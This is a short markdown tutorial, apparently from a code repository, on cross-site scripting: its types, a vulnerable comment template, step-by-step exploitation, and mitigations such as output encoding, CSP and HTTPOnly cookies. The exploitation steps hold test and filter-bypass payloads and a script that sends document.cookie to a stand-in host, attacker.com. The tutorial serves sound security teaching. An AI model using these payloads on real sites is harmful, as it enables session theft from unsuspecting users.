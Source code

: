 # Cross-Site Scripting (XSS) Attack Demo

## What is XSS?
XSS allows attackers to inject malicious scripts into webpages viewed by other users. It can steal session tokens, deface sites, or redirect users.

## Types of XSS
- **Stored XSS**: Malicious script is saved on server (e.g., in a database).
- **Reflected XSS**: Script comes from request parameters.
- **DOM-based XSS**: Vulnerability in client-side scripts.

## Example Scenario
A comment field renders user input without sanitization:
```html
<p>Comment: {{ user_comment }}</p>
```
If attacker submits:
```html
<script>alert('XSS');</script>
```
The alert pops up for any visitor.

## Step-by-Step Exploitation
1. **Locate injection points**  
   - Search for input reflected in responses.
2. **Test payloads**  
   - `<script>alert(1)</script>`
3. **Bypass filters**  
   - Use event handlers: `<img src=x onerror=alert(1)>`
   - Use Unicode or mixed-case encoding.
4. **Steal cookies**  
   ```html
   <script>fetch('https://attacker.com/steal?c='+document.cookie)</script>
   ```
5. **Maintain persistence** (Stored XSS)

## Mitigation Strategies
- **Contextual Output Encoding**  
  - HTML encode user input.
- **CSP (Content Security Policy)**  
  ```http
  Content-Security-Policy: default-src 'self';
  ```
- **HTTPOnly Cookies**  
  - Prevent access from JavaScript.
- **Framework Protections**  
  - Use built-in templating auto-escaping (e.g., Handlebars, Django templates).